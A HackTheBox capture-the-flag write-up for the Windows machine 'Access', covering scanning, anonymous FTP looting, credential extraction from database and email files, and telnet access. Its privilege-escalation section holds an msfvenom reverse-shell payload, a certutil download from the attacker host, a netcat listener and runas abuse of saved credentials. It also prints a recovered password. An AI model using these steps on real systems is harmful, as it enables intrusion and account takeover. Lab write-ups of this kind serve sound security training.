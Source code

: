 ```yaml
---
title: "HTB : Access"
permalink: /access
location: default
---
```


# Access

**Machine Information**

	IP : 10.10.10.98
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan` which should reveal three open ports: `21`, `23`, and `80`.

```
rustscan -a 10.10.10.98 -- -sC -sV
```

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**FTP**

An FTP server is running on port 21 and we can sign in as an anonymous user.

```
ftp 10.10.10.98
```

After exploring the `Backups` and `Engineer` directory we find two files that we can download. `Access Control.zip` and `backup.mdb`.

```
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb

ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
```

Download both of these files from the FTP server. If you are having issues downloading files try turning passive mode off and changing to binary mode.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> binary
200 Type set to I.
```

**MDBTools**

The file `Access Control.zip` is password protected so we can move on. For accessing the `backup.mdb` file I used `mdb-tables` which can be installed with the following command:

```
sudo apt install mdbtools
```

Use `mdb-tables` to dump the table information.

```
mdb-tables backup.mdb
```

From the output there is a table called `auth_user` that could be useful. Dumping the contents of the table reveals some credentials.

```
mdb-json backup.mdb auth_user
```

```json
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"REDACTED","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Use the user credentials for `Engineer` to extract the `Access Control.zip` archive. This will reveal a file called `Access Control.pst` which can be read using the tool `readpst`. To install this use the following command:

```
sudo apt install pst-utils
```

Running this tool on the `Access Control.pst`file will create a new file called `Access Control.mbox` which is an email.

```
readpst 'Access Control.pst'  
```

Open this email to find the credentials for the `security` account.

```
...
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
...
```

**Telnet**

We can try to login into `telnet` using the credentials for the `security` user.

```
telnet -l security 10.10.10.98
```

Success!

```
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

The user flag can be found in the following directory:

```
C:\Users\security\Desktop\user.txt
```

### Privilege Escalation

**Stored Credentials**

During our initial enumeration we find stored credentials for the `Administrator` account.

```
cmdkey /list
```

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can impersonate the `Administrator` using their stored credentials to gain access to their account. Create a reverse shell executable using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Upload the payload to the target machine.

```
python -m http.server 80
```

```
certutil -urlcache -split -f http://10.10.14.4/shelly.exe shelly.exe
```

Start a `netcat` listener on our attack machine. Once listening we can run this executable as the `Administrator` user with the `runas` command to gain a shell with elevated privileges.

```
rlwrap nc -nvlp 9001
```

```
runas /savecred /user:ACCESS\Administrator "C:\Users\security\shelly.exe"
```

Success!

```
C:\Windows\system32>whoami
access\administrator
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
